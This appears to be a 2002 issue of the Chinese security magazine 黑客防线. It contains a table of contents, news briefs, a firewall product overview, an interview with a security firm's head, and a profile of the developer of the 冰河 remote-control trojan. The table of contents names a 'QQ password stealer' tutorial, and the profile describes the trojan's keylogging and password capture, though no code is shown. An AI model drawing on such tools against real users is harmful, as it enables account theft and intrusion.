- 防火墙与入侵检测系统的区别
- 保护 Unix 文件系统的安全经验小谈
- 网络安全中的 ARP 协议和欺骗技术及其对策
- 用 SSH 建立安全网络通道
- Chariot 测试网络吞吐量的利器
- 使用 Iptables 一步一步架设防火墙
- 用 Windows 2000 EFS 实现文件加解密……48
- Snort 用户手册（中）——编写 Snort 规则……54

在以太网（Ethernet）中，一个网络设备要和另一个网络设备进行直接通信，除了知道目标设备的网络层逻辑地址（如 IP 地址）外，还要知道目标设备的第二层物理地址（MAC 地址）。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。

## 漏洞公告

## 案例分析

- 我是如何进入取消默认共享的主机的……63
- 3 次入侵台湾某公司可以看到什么……67
- 虚拟主机入侵分析……68

如果你的服务器中存放了大量的网站资源，你最应该注意什么？不可置疑应该是安全问题。可是有些网管没有深刻认识到这一点，被黑客钻了空子……

## 病毒前线

- 黑防病毒公告栏……71
- 揭开“中国黑客”的神秘面纱……72
- 近距离看“中国黑客”全球首创的三线程技术
- 瑞星对“中国黑客”特性的分析与对策
- “中国黑客”病毒详尽分析

继求职陷阱病毒大闹火热的5月后，6月6日出现的中国黑客病毒以崭新的三线程技术，利用 QQ 发送消息的特色出现，通过电子邮件大肆传播。这个通过 QQ 自动发送内容的病毒着实让人非常头疼。本文栏目通过深入分析病毒“中国黑客”的运行机理，揭开这个智能型病毒的神秘面纱。

## 编程解析

- 用 VB 打造“QQ 密码窃取器”……78
- 一个排除逻辑炸弹的程序揭秘……81
- ADO 连接字符串集……82

## 安全方案

- 网管软件在小型网络里的简单应用……86
- 与单独 VPN 方案相比为什么选择集成的 VPN/防火墙解决方案……91

对于交换机这些设备，相信很多读者都有所接触，但是大部分应该只限于某一种。由于交换机在网络中起着尤为重要的作用，在网络中的应用也很广泛，因此我们有必要来看看它们的一些实际应用，扩展我们的视野。

## 编读互动

## 新书预告

## 黑客防线之攻防感受详解

本书是一本纯粹的网络攻防工具使用指南，从九大类别选出的近四十款工具成为全书的主角，每种工具均通过图解、实际操作流程等形式向你展示其强大功能。

284页书 + 工具光盘

定价：23.80元

## 服务器吧 DIY

网络生活离不开“服务器”，一本全面解析服务器的完全手册：从剖析服务器硬件入手，到如何选择服务器配件，到按照服务器需求与规模组装服务器，到用主流操作软件 Windows 2000 和 Linux 安装配置服务器；一应俱全。

244页 + 工具光盘　定价：23.80元

## 邮购信息

| 名称 | 介质 | 价格 |
|---|---|---|
| 黑客防线秘笈（珍藏版） | 1CD | 28.00元/期 |
| 黑客防线 2 到 7 期（珍藏版） | 1CD | 28.00元/期 |
| 黑客防线 8-9 期（珍藏版） | 2CD | 28.00元/期 |
| 黑客防线 9上、9下、10上期 | 1CD | 6.80元/期 |
| 黑客防线 11 期 | 1CD | 10.00元/期 |
| 黑客防线 12 期 | 1CD | 10.00元/期 |
| 中国黑客内幕 | 1CD | 25.00元/本 |
| 局域网组建维护 300 问 | 1CD | 19.80元/本 |
| 编程入门 | 2CD | 25.00元/本 |
| 黑客防线精华本 | 2CD | 29.00元/本 |
| Windows XP 别样精彩 | 1CD | 19.80元/本 |

汇款地址：北京市中关村邮局008信箱

邮政编码：100080

收款人：《黑客防线》邮购部

热线电话：(010) 62141446 / 62141445-8011

E-mail：yougoubu@hacker.com.cn

### 思科专家建议睡前拔网线

思科的网络安全专家近日提醒电脑用户：即使你拥有最好的防火墙，晚上睡觉前也应拔掉网线！

可能有很多人不理解，我都关机了，黑客能奈我何？实际上，关了机并不安全，思科安全专家称，目前人们都忽视了一个电脑普遍装备——网络遥控开关功能，这有可能为黑客入侵大开方便之门。

思科网络专家提倡“加强网络终端的安全防护”。因为“一个网络系统的安全程度，取决于它最弱的一环，而最弱的环节，往往就是其终端，如个人电脑及其他信息终端设备。因此，要保证网络系统的安全，就应重视用户终端的安全问题。装上防火墙还不够，不用电脑时拔掉网线才是绝对安全的。”

### PGP 邮件加密系统发现漏洞

#### 黑客可对邮件实施拦截

目前在世界范围内使用最为广泛的邮件加密系统 Pure PGP 中发现了一个安全漏洞，黑客们可以利用这一漏洞对用户邮件实施拦截。

PGP 系统可以为 Outlook 用户提供简单易行的加密操作，用户只需几个步骤就可以对自己的邮件实施加密。此次发现安全漏洞的是 eEye 数字安全公司的研究者们，他们认为漏洞不会对加密工具本身产生影响，而是对 Outlook 用户的相关软件产生作用。

这一安全问题可以使黑客通过发送特殊的编码邮件就可对用户的计算机加以控制，并在计算机内安装黑客软件记录用户解密密码。不过研究者称这一程序漏洞很难被人加以利用，对于训练有素的研究者来说也是如此。

### 黑客活动最为频繁的地区

安全服务提供商 Riptech 公司发布的一份调查报告称，无线通信发达、经济繁华的地区，黑客活动相对频繁些，因为物质因素为黑客活动提供了温床，例如以色列和中国香港地区。Riptech 的报告还称，与此同时，在最易受到黑客攻击的国家当中，美国排在了第一位，其次是德国、韩国、中国以及法国。在今年上半年的电脑攻击记录当中，40%的攻击记录来自美国，7.6%来自德国，7.4%来自韩国，6.9%来自中国。

### 前黑客被禁碰电脑

#### 转而出书传授体验

前黑客凯文·米特尼克假释期间被禁止碰电脑，所以决定用另外一种方式温习他的黑客技巧。他计划写一本描写黑客的小说，书名叫《骗术》。据米特尼克本人说，故事是虚构的，里边黑客所用的招数却都是他经过实践检验过的，绝对灵验。

《骗术》的新书样本中，米特尼克讲述了众多通过网络管理员骗取密码和加密钥匙的招数，至少不下一打。米特尼克特别强调故事的虚构性，因为他不希望被紧盯着他的检察官抓住把柄。

### 微软推出“守护神”计划

#### 创造虚拟保护层

计算机业巨头美国微软公司最近公布了“守护神”计划，希望通过重新设计电脑的硬件和软件，提高计算机数据的安全程度。“守护神”计划的设想是重新设计电脑，增加由英特尔公司和 AMD 公司制造的特殊芯片，使电脑具有内置的安全和保护隐私功能。微软公司希望能够建立一个平台，保障微软公司和其他开发商都能够编写专门的应用程序，加强电脑在安全、隐私、版权等方面的保护以及增加处理垃圾邮件的功能。

### 波兰查明闯入美 NASA 计算机系统的黑客

据法新社报道，在得到美国驻波兰大使馆有关黑客非法闯入美国国家航空航天局（NASA）计算机系统并造成巨额损失的通报后，波兰调查人员立即就此事展开调查。虽然波兰调查人员目前已查明黑客所使用的计算机，但肇事者却依然逍遥法外。

调查人员已经证实，黑客非法闯入美国国家航空航天局的计算机系统时，使用的是一台位于波兹南的计算机。

## EPSON 激光打印机

### 诠释商务打印新理念

2002年6月，随着以 EPSON C4000 为代表的 C7000、C8600 和 N6100 四款全新激光打印机的推出，EPSON 的 PPIO 概念也在“EPSON 璀璨六月物·境·人之激光办公任逍遥”新闻发布会上同时亮相。PPIO 是 EPSON 公司在对各类商业用户的打印需求和打印量的关系研究之后提出的一个全新商务办公理念，而同期推出的新产品则恰到好处地描述和诠释了这个全新的理念，诸如公司自制名片、明信片或是办公输出报告、红头文件、个性化宣传手册等。据悉，随着 PPIO 概念的推广和此次 EPSON 四款新产品的推出，EPSON 公司还将针对不同需求的商业用户组合更多的应用方案呈现给用户。EPSON 公司也不断致力于开发新的产品，组合更多新的应用，让更多的用户能通过 PPIO 来实现更高的商业目标。

### 初识 FortiGate

来自美国硅谷的 FortiNet 公司是安全内容处理系统的先驱者，在业界率先推出安全内容处理网关 FortiGate 系列产品。FortiGate 安全内容处理网关（SCPGs）系列产品突破了内容处理边界，提供了全面实时的安全保护，支持千兆级数据流量，满足了远程用户、小型办公室、企业、服务运营商等多种级别的应用安全需求。通过提供基于硬件的内容处理技术，可以在网络边缘部署完善的安全保护服务，提供前所未有的优化安全配置能力，提高了安全性，减少了设备和管理的投资。下面看看 FortiGate 系列产品功能：

### 病毒检测及蠕虫保护

更新的蠕虫、病毒库能够阻止数千种最新的具有很大破坏力的病毒和蠕虫。

病毒检测：扫描邮件附件（SMTP、POP3、IMAP）、Web 内容和插件（HTTP）的病毒特征码和宏病毒。

蠕虫保护：扫描所有进出的电子邮件及附件（SMTP、POP3、IMAP），并检测网页里的插件和下载的内容（HTTP）。

### Web 内容过滤

处理所有的网页内容，阻挡不适当的内容和恶意的脚本。

Web 内容过滤：根据 URL 和关键词模式匹配阻止 Web 站点。

脚本过滤：阻止网页的插件，例如 ActiveX、Java Applets 和 Cookies。

### 防火墙

符合工业标准的状态检测防火墙，很容易配置包括流量记录和流量控制在内的策略。

工作模式：网络地址转换、透明模式、端口地址转换、路由模式。

用户认证：内建用户认证数据库，支持 RADIUS 认证数据库。

服务：支持标准服务（例如：FTP、HTTP），用户自定义服务，还支持用户定义服务组。

时间表：根据小时、日、周和月建立一次性或循环时间表，防火墙根据不同的时间表定义安全策略。

虚拟映射：通过把外部地址映射到内部或 DMZ 网络上的地址，使得外部用户能够访问内部的服务器。

IP/MAC 绑定：阻止来自 IP 地址欺骗的攻击。

流量控制：允许管理员定义带宽限制，并且可以给特定的防火墙策略设置优先等级。

### 虚拟专用网（VPN）

在网络之间或网络与客户端之间进行安全通信，支持 IPSec、PPTP、L2TP 等标准。

密钥交换算法：支持自动 IKE 和手工密钥交换。

硬件加速加密：支持 DES、3DES 加密算法，在线可升级到 AES。

VPN 客户端通过：支持 IPSec 和 PPTP 客户端通过。

### 入侵监测系统

黑客普通攻击的实时监测。

攻击防护：实时防护来自 IP Source Routing、IP Spoofing、SYN flood、ICMP flood、UDP flood、Address sweep、Tear drop attack、Winnuke attack、Port Scan Attack、Ping of Death、Land attack、拒绝服务和许多其他的攻击。

攻击数据库：和病毒数据库一样，在线自动更新，防止一些远程特殊的攻击，例如：针对某种服务的溢出攻击和拒绝服务攻击。

邮件报警：当监测到攻击时，防火墙会同时向 3 个邮件地址自动发出警报。

### 高可用性（HA）

提高可靠性和负载均衡。

动态负载分配：增强性能，在失败恢复的时候不会发生服务中断。

HA 端口：专用于两节点间 HA 通信连接。

### 日志和报告

将日志记录到远程 Syslog 主机。

多种日志：流量、事件和攻击日志。

搜索功能：可以根据关键字、来源、目的、日期和时间搜索日志记录。

### 管理

易于使用的、安全的图形化和命令行界面。

基于快速配置模板管理：根据配置模板，逐步配置。

基于浏览器界面配置管理：通过 IE 浏览器进行管理。

多语言支持：支持英文、中文、日文和韩语。

远程管理：通过浏览器界面，使用 HTTPS 远程登录管理；还可以通过命令行界面，使用 SSH 远程管理。

基于 LCD 界面配置管理：快速基本的设置。

命令行界面：提供 Console 口或安全远程连接。

### 安全网络可以这样织

本报记者专访普方德总经理张坤先生

#### 普方德总经理张坤简介

张坤，男，1963年2月出生。1988年毕业于长沙国防科技大学电子技术专业。历任国防科工委23试验基地“远望1号”航天远洋测控软件管理员，总参二部计算机中心副研究员，北京市国家安全局科长，北京华力捷软件工业有限公司副总经理、国家1102研究项目总体研究员、国家信息安全测评认证中心系统工程实验室主任，现为北京普方德信息技术有限公司总经理，同时在北工大担任网络安全专业的客座教授。

- 负责过的重要项目有：
  - 1988年，国家“331-6”卫星发射实验负责遥测分离轨道程序编码工作；
  - 1990年，“亚洲一号”发射任务，负责“卫星接收系统”研制；
  - 1998年，国家级信息安全技术1102研究项目负责总体研发。

一个霏雨霏霏的下午，我们走访了北京普方德信息技术有限公司的总经理张坤先生。初见张总，对他儒雅的气质与平和的仪态留下很深印象，也许这份安然自信来源于多年商海搏击风浪的修炼与成败过后的坦然。和张总的谈话自然而然从企业发展与安全技术话题展开……

**记者：** 首先感谢您接受《黑客防线》的采访，能否先请张总对普方德公司做一个简介概述。

**张总：** 北京普方德信息技术有限公司（以下简称普方德公司）是一家侧重于 IT 行业信息系统安全技术研发和推广的网络系统集成企业。1997年普方德预见到网络安全将形成一个巨大规模的市场，经过3年的准备，普方德在2000年通过企业重组由一家软件企业变成了从事信息安全业务的专业化公司。业务范围包括网络安全工程、服务与产品，其研发方向以国外先进技术为依托，开发出适应国内安全需求的产品。公司的市场目标定位在几大关键行业，如政府、电信、电力、金融等，目前普方德已与这些行业客户群建立起良好合作关系。

**记者：** 信息安全有赖于政府的支持，在这些方面，普方德与政府都作了哪些工作？

**张总：** 普方德很重视与政府的合作，因为信息安全涉及到国家的利益，因此，普方德从老总到每一个员工都有一种强烈的责任意识。同时普方德和信息安全管理部门有着良好的合作，参与了许多信息安全标准的制定，比如信息安全工程的质量、经营性网站的安全标准，配合执法机关做些检查工作，普方德都提供了全面的技术支持。并为政府主管部门作了许多免费的信息安全培训，旨在帮助政府进行安全教育，提升全社会信息安全意识。很多服务都是义务性的，这是普方德一贯回报社会的体现。

**记者：** 普方德作为著名的信息安全提供商，其产品与国内外其他著名信息安全产品相比有何特色？

**张总：** 普方德的技术基础、框架从本质上与国外著名安全产品没有太大区别。但在用户的实际应用方面，我们作了一些贴近用户的考虑，普方德在技术的成熟性、经济性与实用性上都有自己独具特色的地方。

**记者：** 可以再具体介绍一下普方德都为客户提供了哪些信息安全产品吗？

**张总：** 我们主要有以下信息安全产品：

1. 普方德网络安全检测分析仪（PFD NetSecDetector V3.0），在许多大行业尤其在证券行业的应用，得到中国证监会的良好评价。
2. WebMonitor，是一个具有特色的网络安全产品，该系统实现了对 Web 站点发布的信息进行实时扫描与监控。
3. 有线电视网的防护／收费系统，这是根据客户的需求而近期开发完毕的。
4. StopHacker，中文名称叫守护神防火墙，它集内网安全控制、外网防护、端到端的隧道加密功能为一体，能有效地监测并阻止来自网络内外的恶意攻击。
5. 安全风险分析工具 CRAMM。CRAMM 由5个英文字母缩写组成：C 为开发 CRAMM 的政府实体 CCTA，R 是 Risk（风险），A 是 Analysis（分析），M 是 Management（管理），M 是 Method（方法）。CRAMM 是英国政府的风险分析和风险管理方法。CRAMM 评估者对资产拥有者、系统使用者、技术支持人员和部门安全官员进行一系列采访评定，其评估结果是一组被推荐且被认为是必须的抗风险对抗措施信息，是将人文资料专家化、工具化的产品。

**记者：** 对于目前的中国网络安全市场，普方德是如何把握的？未来普方德的方向在哪里？

**张总：** 就整个网络安全市场而言，感觉是很乐观的。但就我个人对网络安全市场的分析，认为其尚处于孕育和发展阶段，市场规则不是很明确，用户的安全意识和厂商的安全技术都还没有达到成熟，但随着国家对网络安全产品的关注和人们对网络依赖性越来越强，网络安全市场将有一个更为灿烂的春天。普方德作为最早介入网络安全市场的企业，自然希望市场能向一个有序的、良性的方向发展。普方德未来的方向希望能够做得更大，争取成为信息安全界最大企业之一，并希望能进入资本市场而得到更大的飞跃。

和张总的谈话就在对信息安全的展望中结束，我们衷心祝愿张总和他旗下的“普方德”在企业发展的道路上乘风破浪、与时俱进。

### 永远的“冰河”

——访著名软件“冰河”的开发者黄鑫

本刊记者／秦丁可

曾有一段时间，“黑客”在中国被人这样曲解：“黑客就是会用‘冰河’黑别人电脑的人！”一听便知这是外行笑话，但引起这场误会的却是“冰河”这个在国内网络安全圈从知名度到装机量都名列前茅的软件。这款优秀网络工具一经问世就颇受争议，争议的核心是它既可当作植入被攻击端的木马，也可作为正当的网络远程管理利器。“冰河”既是软件名也是其作者黄鑫的化名，这个名字挺“酷”，容易联想到霜天雪地里冷冽坚冰下涌动的寒流。自“发源”以来，这条奔涌的“冰河”已流经大半个中国，冲击出一片“冰河”流域，不计其数的“菜鸟”们从这一流域步入更为广阔的网络安全技术天地。公平地讲，“冰河”及其开发者黄鑫在中国网络安全技术发展史上应占有一席之地。今天让我们一起走近黄鑫，涉入“冰河”。

印象中，自然界里“冰河”何等肃杀与寒气彻骨，而坐在我面前的程序员黄鑫却热情如火，谈笑风生。在北京盛夏一个雨后清爽怡人的傍晚，我随着他对往事清晰的回忆，沿“冰河”逆流而上，追溯源头……

### “冰河”的起源

话题从黄鑫与电脑的第一次亲密接触开始。97年的黄鑫还是西安电子科技大学的一位大三学生，说来难以置信，在大一大二的时候，他还没怎么接触PC，用他自己的话说是：“有一天和宿舍最要好的同学突然觉得应该弄台电脑玩玩了，便两人凑钱买回一台‘486’。”由于电脑在使用时受到了“晚上十一点就全面断电”的校规限制，小哥儿俩再次凑钱到校外租了间小房子。玩电脑开始的日子非常之“爽”，他们经常在学校机房与个人“机房”之间以3寸软盘传递信息。但不多几日，“病毒”开始在其间滋生蔓延，学校机房成了“病毒乐园”。那时的黄鑫还是个不折不扣的初级小菜鸟，自己电脑中了病毒仍浑然不知，还乐此不疲地拷贝着“NDD”“PCTOOLS”以及当时流行的小游戏。直到一天电脑不再正常启动，这下他抓了瞎，自己不懂，就找那个要好的“购机合伙人”求援。好友看后送他一句话：“你中了‘秋水’病毒！”虽然到现在黄鑫仍无从考证当时好友判断的正误，但在他当时白纸般简单的计算机知识“内存”中永久存储下了“秋水”这两个字。所谓知耻而后勇，此后黄鑫从如何用KV300、KILL等杀毒软件清除病毒开始了计算机知识的全面涉猎。那台“486”老爷车只能跑DOS，要硬跑起Windows 95来则需要足够的耐心，但黄鑫与伙伴仍抵挡不住单机版“红色警戒”的诱惑。为了可以顺畅地把游戏玩爽，为了再遇故障和病毒时可以自己解决，黄鑫决心把电脑知识学深学透！他首先从KV300恢复主引导区的概念受到启发，由研究DOS磁盘引导区入手，从文件分配表到55AA扇区一步步把原来看似神秘的东西搞清。回忆那时的经历，黄鑫说：“正是病毒的存在才让我感到电脑的趣味无穷！”如果不是这份兴趣，他恐怕不会将才智和精力全部投入其中，也就不会有日后“冰河”这一影响他人更影响他自己一生的“作品”的诞生。

没过多久，已是“中级菜鸟”的黄鑫不再满足于用现成的软件按个功能键对系统进行自动修复了，他开始使用debug，开始涉及汇编语言，很快就能不再借助任何第三方工具而用手工恢复引导扇区。不久后又将这一手工过程通过一个自编的汇编小程序自动实现，初尝成果的他小有成就感。至此，黄鑫只用短短数月便完成了由“初级小菜鸟”到“初级专家”的质的转变。此时在计算机求知路上的黄鑫已是脱缰的野马，任何成绩的取得都不能放慢他向更高技术层次进取的脚步。正好大三下学期开设了C语言课程，C语言可实现的那些汇编语言无法比拟的强大功能深深吸引了黄鑫，在同班一位极具编程天赋的同学的鼓动下，他开始了自己编程研究的重要转型，主攻C语言。可以想见，对于汇编语言已烂熟于心的他，再学C语言可谓触类旁通，很快轻松上手了。但每想到潜心修得的一身汇编硬功就此“废弃”，黄鑫的惋惜之情溢于言表，由此也让黄鑫深刻认识到计算机知识的更新速度之快，让求知者不得喘息。从大三开始对计算机知识如饥似渴的汲取，为黄鑫日后成为开发出“冰河”这样经典软件的优秀程序员奠定了坚实的基础。应该说“冰河”今天的一泻千里得益于当年的厚积薄发，大学时代知识的点滴积累就是汇成汹涌“冰河”源头的涓涓细流。

#### 初出茅庐，小试锋芒

大三后半学期开始，黄鑫与那位擅长编程的同学联系到咸阳市的一家公司做一份没有报酬的“兼职”，为的是丰富自己的实际开发经验。两人每个周末从西安跑咸阳一趟，为该公司开发一个数控机床的工控机软件。这项开发也充分发挥了他在DOS与汇编方面的特长。两个人连续数日挑灯夜战，效率极高，原开发单位一个月没有完成的工作转到他俩手中仅用4天就将一个DOS下运行的仿Windows界面框架构建完毕，接着只用两周时间全部开发工作顺利完成。虽说这个小项目与日后黄鑫参与的大型开发任务无法相比，但毕竟是第一次工作实践。人生每一个有意义的“第一次”都是值得纪念的。后来得知这套工控机软件在全国销路很好，两个没有拿到一分钱奖励的大学生却由衷地感到自豪与成就感。该公司希望他们留下来，但长时间在西安与咸阳间往返奔波毕竟不便，黄鑫决定在母校“西电”附近的软件公司寻找机会。可每次面试，对方刚听完他的自荐便主观判定这个未出校门的毛头小伙子既无工作经验，更不可能身怀绝技，甚至还对一个学生的工作责任心表示怀疑，这令黄鑫非常不快也挺寒心。最后他以一种无所谓的心态在一位本校教师开的一家名叫“创富”的小软件公司与这位老师面谈，他明确地跟对方说：“你如果试用我一两个月，说出我什么地方不行，我马上心服口服地走人，但如果连个考察的机会都不给，那未免太主观臆断了。”这位老师觉得有理，就拿出一个别人用Delphi编得不很完善的程序让他修改，黄鑫用了不到半个小时就轻松搞掂，于是他被聘用了。正是这份兼职在他日后的职业发展道路上起到了重要作用，他出众的开发能力很快受到这位老师赏识，便在黄鑫毕业后将他推荐到在深圳的“中国科技开发院”工作。

当时的黄鑫因有在校与同学打架的记录，毕业评定多少有些不利，他清楚地记得恰好是“西电”老校友的“开发院”老总面试他时的第一句话：“你现在还敢打架吗？”而黄鑫的回答仍有个性：“有什么不敢的？”老总立即笑道：“行，你来我们这儿吧！”不久后黄鑫得知老总曾是昔日“西电”散打队的一员，原来两人的经历与性格很像，老总也许在黄鑫身上看到了当年的自己。说到两人的友情，黄鑫话很多。两人年纪相差整一轮，既是校友、上下级，更是忘年至交。“他就像一位老大哥，在我多次处境困难的时候无私地帮助过我。”黄鑫一脸真诚地说。除了感激，黄鑫对他更多的是发自内心的敬佩，敬佩他的人格魅力、事业心、驾驭企业发展的管理水平、市场运作能力，特别是洞悉判断人的锐利慧眼。大四下半学期，早已完成毕业设计的黄鑫开始在“开发院”上班了。在其后一年多的时间里他的研发水平不断提高，其间他作为主要研发人员参与完成了标底1000万的上市公司“南宁百货”企业MIS系统招标项目，共历时9个月。约一年后他又被借调到广州科友公司做一个USB口令卡的开发，此项目3个月一个开发周期，第一个周期是在模拟环境中完成产品的测试。就在做完测试前后，黄鑫因家庭生活的经济困难以及个人职业发展的长远考虑，面对上海一家公司开出的明显优厚的待遇条件，做出第一次跳槽的决定。当时钱对他是一个很实际的问题。但公司的现状和他自己的做人原则都决定了不可能向公司提什么条件，与“老大哥”谈及此事，对方虽感惋惜，也表示了极大的理解。面对公司的挽留，黄鑫一再强调个人原因的同时非常真诚地表达了对老总本人和公司的感谢与不舍。时至今日，这两位忘年交仍保持着不减当年的真挚友情与密切联系。

他到上海那家公司后工作一度还算顺心，公司先前许诺的待遇条件都兑现了。但天有不测风云，刚巧又过了3个月，公司上层决定放弃黄鑫参与开发的这个项目，更糟的是公司对整个行业前景不再看好而决定转向，这意味着黄鑫注定再次跳槽。于是“冰河”首次来到了北京。北京也是他一直想来的地方，这里有全国最好的网络安全研发环境。不过他现在就职的北京恩乐信息技术公司是深圳恩乐公司所属的分支机构，看来黄鑫与深圳还是有缘。至此，这条不安分的“冰河”从西到南再向东，最后流到了北，程序员黄鑫算是在北京相对稳定了下来。

## “木马”“冰河”，人梦未来

大四后期早早就完成毕业设计，又有一身编程绝技在身不愁工作去向，黄鑫显得比同学轻松自在许多，于是学校附近的网吧经常可以看到他的身影。已在单机上把加解密之类的东西玩熟玩透了的他，有一天便萌发了在网上大搞“隐身与瞒天过海之术”的想法。通过接触当时很流行的“BO”以及“netspy”等后门程序，更激发他将这一想法付诸实施，因为他发现这些程序在功能实现上也有局限，比如当时的“netspy”只是一个扩展的FTP客户端／服务端程序，防范起来比较容易；相比之下，“BO”的功能要强大很多，但它毕竟是泊来品，黄鑫觉得自己完全有能力开发出功能更强大完善的工具来，这也是提高自己网络编程水平的好机会。以前缺少必要的网络测试环境，Winsock都未曾涉及，正好就此进行一番“恶补”。这时Delphi强大的控件功能派上了用场，在开发建立网络连接模块时大大节省了时间，提高了效率，开发的前期还比较顺利，网络编程对他这样一个汇编与C语言高手来说自然不是什么难事，偶遇生僻费解的问题，他就去请教那位编程水平很高的同学。很快，作为“冰河”雏形的一个可执行文件终于问世，还来不及起名字就先在宿舍同学之间进行测试，大家普遍反应不错，说比“BO”一点也不差，后来又将测试中发现的不足和问题进行改善。事情至此也就告一段落了，软件只是在同学中传着玩，当时的黄鑫从没想过把这个开发动机很单纯的软件发布出去以求名利双收，但事情在其后一个偶然的机会里发生了改变。在那次去做“南宁百货”的招标项目时，开发组中一位南宁当地的技术人员用过这个“冰河测试版”后也大加赞赏，由于他接触国际互联网较早，对互联网广泛的影响力体会很深，就强烈建议黄鑫将这个软件在网上发布，比起网上众多很不入流的“共享软件”，这个软件定会大受欢迎。一番话将黄鑫说动了，决定一试，这时才想起还没给软件正式命名，大伙儿就一起帮着想，后来采取的方式是把金山词霸打开随机地敲入一个拼音字母，看出来什么字和什么联想词，最后在“流沙”“冰河”等词儿中选中了“冰河”，这个日后广为传播的“酷名”就是这么随意“瞎起”的。不过黄鑫现在也觉得有些“歪打正着”：“表面封冻的坚冰下暗流仍在涌动”，与“木马”特性颇为暗合，还兼具点儿文学韵味。

接下来的问题就是选哪个网站上传发布，那位南宁的同事先推荐了一个名为“PCHOME”（电脑之家）的网站，黄鑫自己又在网上找到了一个“中国程序员网站”，于是两个站点都放上去发布了。

“冰河”发布后果然反响热烈，北方工业大学的两位研究生最先给黄鑫发来Email，在对“冰河”大加称赞的同时，还希望交友，以便交流提高。他俩当时正给电信部门做一个“远程监控”的项目，经比较，他们认为同类软件中“冰河”综合性能最佳，后来又有大批的企业网管给他写信，请教与探讨技术细节，无意中黄鑫也交到了很多朋友。“冰河”从黄鑫在校时开发其雏形，到1.0测试版正式发布一直是英文版的，一心想着尽快做出这个软件的他完全没有考虑语言支持问题，但一经对外发布，问题就来了，一位英文不好的网友给他发信指出：“作为‘冰河’开发者你是中国人，面向的也主要是中国用户，为什么不写‘中文版’？难道中国人自己的软件还要中国人来汉化吗？不会是为了炫耀你的英文水平吧？”一席话真给黄鑫提了醒，没想到自己完全忽略了这个重要问题，他一点儿也没在意网友有点过激的言辞，仅仅一周后就完成发布了“冰河”1.1中文版。可中文版刚发布几天又发生了一件令他啼笑皆非的小插曲：他又收到一位网友的来信：“我用的是英文操作系统，没有中文环境，你能不能出个英文版？”黄鑫只好回信耐心告知他此前已有英文版。再后来还有人指出“冰河”操作界面比较简陋，应加以改善，这些来信让黄鑫在感到“众口难调”的同时更感到“冰河”的大受欢迎，为此他计划在“冰河”中实现多语言环境支持并将其彻底“变脸”。那时他正忙于“南宁百货MIS系统”的开发，在没有影响工作进度的情况下，他用业余时间将“冰河”升级到了1.2版。在此需要特别提一下，后来“冰河”从1.2直接升至2.0而不是1.3、1.4、1.5等等类推，是因为黄鑫发现自己最初软件结构的设计思路很有局限，在此结构上的升级空间越来越小。所以，“冰河”2.0除新增“键盘记录”“截取CACHE口令”等少量新功能外，较原来1.x版本的最大改进就是整个程序结构特别是操作界面的变化，不再是以前版本的简单升级，其后又有“冰河”2.1、2.2的改进版本。

身为这款被很多人视作著名“木马”软件的开发者，黄鑫自己从未用它“搞”过任何一台别人的电脑，从初次开发到每次升级后的测试都是在属于自己学习或工作的网络环境中进行的，而在互联网上不足10次的测试都是通过OICQ向在线好友发出请求，经对方同意后在其电脑上进行的。其实黄鑫本质上就是一个技艺高深的程序员，他关注的是技术本身，当看到自己以单纯动机开发出来的软件被他人用于实现不好的目的，也只能深感无奈。这里就自然说到有关“冰河”停止升级开发这一黄鑫自己都不愿过多提及的话题。“冰河”的最终版本是2.2B，此时的“冰河”已“风靡全国”，“那时我突然感到‘冰河’把大家引入歧途了，我在技术论坛上发现，很多网友，特别是年纪很小、刚开始对网络着迷的小孩儿已经深信：‘会用冰河就是黑客！’我敢说用‘冰河’的人90%都是为了给别人种‘木马’搞破坏或是用来满足虚荣心的，真正用于个人正当远程控制或是对网络编程技术本身感兴趣以此进行研究的不到10%，这让我觉得‘冰河’已失去了再升级下去的意义，做起来也没什么意思，所以到2.2B就终止了开发。”这是黄鑫对此事的自述。事实上，他知道什么是一个真正的优秀程序员应有的道德准则和社会责任。但“冰河现象”的事态发展并不由其开发者的自重与自律行为所左右，在朋友帮忙制作的“木马冰河”黄鑫个人主页的技术论坛上，到处充斥着“冰河”黑机大法的教学帖子，有的帖子还直奔“冰河万能密码”的主题，黄鑫眼看着自己以技术提高为良好初衷建立起来的网站正在变成一个“木马、黑机”的交流园地，促使他不得不在终止“冰河”升级开发后，又关闭了“木马冰河”个人站点。

停止“冰河”的开发后，黄鑫于2000年底加盟著名网络安全网站“安全焦点”（www.xfocus.org），他将完成公司本职工作之外的精力都用于知名扫描器“XSCAN”的开发升级以及“安全焦点”的建设维护。也许XSCAN的知名度没有“冰河”那么高，但用过扫描器软件的人对它都不会陌生。开发这款优秀扫描器的最初设想还是在2000年天极网组织的黑客大会上，几个技术圈里的朋友对他说：“‘冰河’不再搞了，你总得再做点什么吧？”朋友建议他做扫描器，黄鑫也感觉不论从自己的技术特长和使用前景上看这是一个不错的主意，于是一回来就开始做，并很快做出了框架。

在“安全焦点”几位朋友提供大量漏洞及编程资料的协助下，开发进展顺利。XSCAN的第一个版本很快在“安全焦点”网站发布，下载量一路攀升，后来随着版本升级，支持插件、远程操作系统识别等重要功能都逐步得以实现，眼下XSCAN的2.0版即将问世。可以说XSCAN是继“冰河”后黄鑫的又一代表作，且就技术含量而言，更是超过了他的成名作“冰河”！现在，黄鑫一面继续着XSCAN的版本升级，一面正主攻他在“安全焦点”的一个重要研发任务，就是被形象地称为“黑客陷阱”的引诱攻击继而对其跟踪检测分析的“HONEYPOT”（蜜罐）系统。攻击者一扫描到“HONEYPOT”就会以为这是一台毫不设防的“肉鸡”，一旦发起攻击，其攻击行为和手段的每一步每个细节都被“HONEYPOT”系统监视得一览无余并记录在案进行分析。黄鑫现在做的就是开发一个“HONEYPOT”单机版模拟环境，“HONEYPOT”的开发意义在于扩大其在国内技术领域的认知度，以吸引更多的人加入这一技术的研讨。

从“冰河”到“XSCAN”，再到“HONEYPOT”，黄鑫在程序开发的技术探索上一步步为营，不断积累着宝贵经验。现在的黄鑫正值一名优秀程序员的黄金年龄，集锐气与成熟于一身，人们有理由期待他超越当年“冰河”的辉煌。

### 程序员黄鑫

### 采访札记

黄鑫是广东人，这很容易从他的相貌特征上找到答案。由于父母长期在山西太原工作，黄鑫就出生在这里并一直生活到高中，除短短几年的南方学习与工作经历，26岁的他在北方生活了20余年。生活中的黄鑫喜欢交友重义气，初次接触就容易让人消除陌生感，不知长年的北方生活对他豪爽直率、热情健谈的气质有无潜移默化的影响。

